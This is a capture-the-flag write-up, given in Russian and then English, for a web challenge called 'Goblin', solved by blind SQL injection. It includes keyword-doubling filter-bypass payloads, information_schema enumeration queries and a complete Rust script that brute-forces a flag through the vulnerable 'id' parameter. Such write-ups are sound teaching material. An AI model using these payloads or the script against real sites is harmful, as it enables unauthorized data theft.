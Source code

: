 # Goblin

> Да кому нужны эти рекурсии, хах? *(Я так и не понял про что это)*

---

> Who needs these recursions, huh? *(I still don't get what this is about)* *(EN version uses "huh" as opposed to "haha")*

## Решение / Solution

Страница встречает нас следующим текстом *(текст воссоздан по памяти)*:

```html
There is a hidden parameter somewhere...
```

Используя [Hidden-Parameter-Injector](https://github.com/RobertJonnyTiger/Hidden-Parameter-Injector)
найдем этот параметр:

```bash
$ python3 inject.py -u http://...

[>>] Listing all parameters from: common-params.txt
[>>] Starting parameters injection...

[>>] Injecting to: http://...
        [V] Accepted Parameter: id
```

Если его приписать в конец ссылки `?id`, то страница пишет, что пользователь не найден, а если дать
ему некоторое цифровое значение, то оно выводит профиль какого-то пользователя.

Дальше проверяем параметр на SQL Injection: приписываем `'`. MySQL сервера начинает ругаться на это,
а значит можно воспользоваться всем арсеналом этой атаки.

В ходе проверки некоторыми запросами, оказалось, что сервер имеет какую-то защиту в виде удаления
не понравившихся ей подстрок. Воспользуясь [подсказками от PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters),
получим следующие (или подобные) замены:

```sql
AND -> AANDND
FROM -> FRFROMOM
WHERE -> WHWHEREERE
SELECT -> SELSELECTECT
OR -> OORR
AS -> AASS
IF -> IIFF
  -> /**/
```

После удаления подстрок в строках справа, они будут преобразованы в нужные нам строки слева.

Например, для следующего запроса который мы будем использовать (между `1'...#`), соответствует
следующая замена:

```sql
and(select 1 from information_schema.tables where table_name like 'f%' limit 1)

aandnd(selselectect/**/1/**/from/**/infoorrmation_schema.tables/**/where/**/table_name/**/like/**/'%f%'/**/limit/**/1/**/)
```

> [!IMPORTANT]
> `information_schema -> infoorrmation_schema`

Данный запрос отвечает, что пользователь не найден, если нет данных соответствующих `LIKE`.

С помощью ручного подбора через `information_schema.tables where table_name like '%flag%'` и
`information_schema.columns where table_name='flag' and column_name like '%flag%'` найдем таблицу
`flag` и столбец `flag`.

Дальше подбор вручную немножко нецелесообразен, так что напишем небольшую программку. Ниже приведен
код на Rust с использованием `regex` и `reqwest` (под `tokio`).

> [!NOTE]
> Поле `flag.flag` не имеет чувствительности к регистру. Флаг, надеюсь, тоже.

> [!WARNING]
> Перебор будет искать ключевые слова (например, `grodno{andandand...`), если делать замены до
> подстановки текущего варианта. Причиной этого является замена сервером строки на `grodno{`,
> которая является правильной под фильтром `LIKE`.

```rust
use regex::Regex;

#[tokio::main]
async fn main() {
    let url = format!(
        r#"http://.../?id=1'and(select 1 from flag where flag like "%AAA%" limit 1);"#
    );

    let alphabet = r#"abcdefghijklmnopqrstuvwxyz0123456789_{}"#;

    let mut cf = String::from("grodno{");

    let keywords = ["and", "from", "where", "select", "or", "as", "if"];

    'outer: loop {
        for c in alphabet.chars() {
            let curr_flag = format!("{}{}", cf, c);
            let mut url = url.replace("AAA", &curr_flag).replace(" ", "/**/");

            for keyword in keywords {
                // inefficient, move `Regex::new` to `keywords`
                let regex = Regex::new(&format!("(?i){}", keyword)).unwrap();
                
                // SELECT -> SSELECTELECT
                url = regex
                    .replace_all(
                        &url,
                        format!("{}{}{}", &keyword[0..1], keyword, &keyword[1..]),
                    )
                    .to_string();
            }

            let body = reqwest::get(url).await.unwrap().text().await.unwrap();
            if !body.contains("does not exist") {
                println!("{}", curr_flag);
                cf = curr_flag;
                continue 'outer;
            }
        }
    }
}
```

Флаг:

```plain
grodno{3asy_sq1i_h3h3}
```

---

The page greets us with the following text *(text recreated by memory)*:

```html
There is a hidden parameter somewhere...
```

Using [Hidden-Parameter-Injector](https://github.com/RobertJonnyTiger/Hidden-Parameter-Injector)
it can be found:

```bash
$ python3 inject.py -u http://...

[>>] Listing all parameters from: common-params.txt
[>>] Starting parameters injection...

[>>] Injecting to: http://...
        [V] Accepted Parameter: id
```

If `?id` is appended to the link, the page states that some user was not found, and if you give it
some number value, it outputs a profile of a matching user.

Next we check the parameter for SQL Injection: appending `'`. MySQL server starts complaining about
this, thus we can use the entirety of the attack's arsenal.

While trying some queries, it turns out, that the server has some kind of protection in the form of
deleting some substrings it does not like. Using [PortSwigger's hints](https://portswigger.net/web-security/sql-injection/bypass/1),
we get the following replacements:

```sql
AND -> AANDND
FROM -> FRFROMOM
WHERE -> WHWHEREERE
SELECT -> SELSELECTECT
OR -> OORR
AS -> AASS
IF -> IIFF
  -> /**/
```

After deleting the substrings in the strings at the right hand side, we will have the wanted strings
at the left hand side.

For example, for the following query which we will be using (between `1'...#`), we will have the
following replacement:

```sql
and(select 1 from information_schema.tables where table_name like 'f%' limit 1)

aandnd(selselectect/**/1/**/from/**/infoorrmation_schema.tables/**/where/**/table_name/**/like/**/'%f%'/**/limit/**/1/**/)
```

> [!IMPORTANT]
> `information_schema -> infoorrmation_schema`

This query responds that user does not exist if there are no matches for the `LIKE` filter.

With a manual brute-force via `information_schema.tables where table_name like '%flag%'` and
`information_schema.columns where table_name='flag' and column_name like '%flag%'`, we find the
table `flag` and the column `flag`.

Next manual approach is a bit unwieldy, and it would make more sense to write a small program. Below
you can see Rust code that uses `regex` and `reqwest` (under `tokio`).

> [!NOTE]
> Field `flag.flag` is case-insensitive. Flag, I hope, too.

> [!WARNING]
> Brute-force will look for keywords (e.g. `grodno{andandand...`), if you perform replacements
> before substituting the current variant. This is because server will replace it by `grodno{`,
> which is valid under the `LIKE` filter.

```rust
use regex::Regex;

#[tokio::main]
async fn main() {
    let url = format!(
        r#"http://.../?id=1'and(select 1 from flag where flag like "%AAA%" limit 1);"#
    );

    let alphabet = r#"abcdefghijklmnopqrstuvwxyz0123456789_{}"#;

    let mut cf = String::from("grodno{");

    let keywords = ["and", "from", "where", "select", "or", "as", "if"];

    'outer: loop {
        for c in alphabet.chars() {
            let curr_flag = format!("{}{}", cf, c);
            let mut url = url.replace("AAA", &curr_flag).replace(" ", "/**/");

            for keyword in keywords {
                // inefficient, move `Regex::new` to `keywords`
                let regex = Regex::new(&format!("(?i){}", keyword)).unwrap();
                
                // SELECT -> SSELECTELECT
                url = regex
                    .replace_all(
                        &url,
                        format!("{}{}{}", &keyword[0..1], keyword, &keyword[1..]),
                    )
                    .to_string();
            }

            let body = reqwest::get(url).await.unwrap().text().await.unwrap();
            if !body.contains("does not exist") {
                println!("{}", curr_flag);
                cf = curr_flag;
                continue 'outer;
            }
        }
    }
}
```

Flag:

```plain
grodno{3asy_sq1i_h3h3}
```
